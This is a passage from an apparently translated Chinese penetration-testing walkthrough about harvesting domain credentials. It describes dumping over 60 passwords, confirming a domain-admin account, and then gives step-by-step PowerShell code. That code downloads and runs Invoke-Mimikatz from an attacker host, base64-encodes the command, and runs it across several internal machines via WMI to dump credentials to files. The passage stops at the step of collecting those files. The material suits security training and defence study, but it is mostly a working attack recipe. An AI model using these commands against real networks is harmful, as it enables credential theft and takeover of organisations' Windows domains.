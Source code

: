 你看！我们已经拿到 60 多个密码啦。我们注意到了一个“可疑”账号**adm\_supreme**，它可能具备特殊权限。然后，我们查询"domain admins"组进一步确认：

![xx&#x793A;&#x610F;&#x56FE;](.gitbook/assets/4.3-5.jpg)

**adm\_supreme**确实属于"domain admins"组。搞定！

{% hint style="info" %}
提示：查询域资源（组，用户等）时，请记住必须使用有效的域帐户。在上面的屏幕中，在执行 “net group” 命令之前，我们使用adm\_supreme 帐户重新连接到10.10.20.118。
{% endhint %}

{% hint style="success" %}
深度分析

使用 invoke-mimikatz 特性在多台机器上执行代码实际上不太稳定。如果管理员没有正确配置PowerShell，要想使其正常运行需要一点技巧。其中一种方法是使用 WMI，这也是一个在服务器上执行远程命令的有趣工具。

我的想法是使用一句话 PowerShell 命令，调用 Mimikatz 然后将内容导出到本地文件。我们使用 WMI 远程执行这条命令，等待几秒钟，然后在我们的计算机上查找导出文件。

我们一步一步分析如何来实现：

1. 稍微更改以前的代码，将目标的 IP 地址包含在输出的文件名中:

   ```text
   $browser = New-Object System.Net.WebClient
   IEX($browser.DownloadString("http://192.168.1.46:443/Invoke-Mimikatz.ps1"))
   $machine_name = (get-netadapter | get-netipaddress | ? addressfamily -eq "IPv4").ipaddress 
   invoke-mimikatz | out-file c:\windows\temp\$machine_name".txt"
   ```

2. 将所有的换行符更改为“;”，然后将此脚本放入 PowerShell 脚本的变量中：

   ```text
   PS > $command = '$browser = New-Object System.Net.WebClient;IEX($browser.DownloadString("http://192.168.1.46:443/Invoke-Mimikatz.ps1"));$machine_name = (get-netadapter | get- netipaddress | ? addressfamily -eq "IPv4").ipaddress;invoke-mimikatz | out-file c:\windows\temp\$machine_name".txt"'
   ```

3. 对这个变量进行base64编码，并定义要定位的机器：

   ```text
   PS> $bytes = [System.Text.Encoding]::Unicode.GetBytes($command)
   PS> $encodedCommand = [Convert]::ToBase64String($bytes)
   PS> $PC_IP = @("10.10.20.229", "10.10.20.97")
   ```

4. 然后，我们准备启动 WMI 循环，该循环生成带有先前 base64 代码作为参数传递的PowerShell：

   ```text
   PS> invoke-wmimethod -ComputerName $X win32_process -name create -argumentlist ("powershell - encodedcommand $encodedCommand")
   ```

5. 最后，我们把导出的文件移到我们目标机 10.10.20.118：
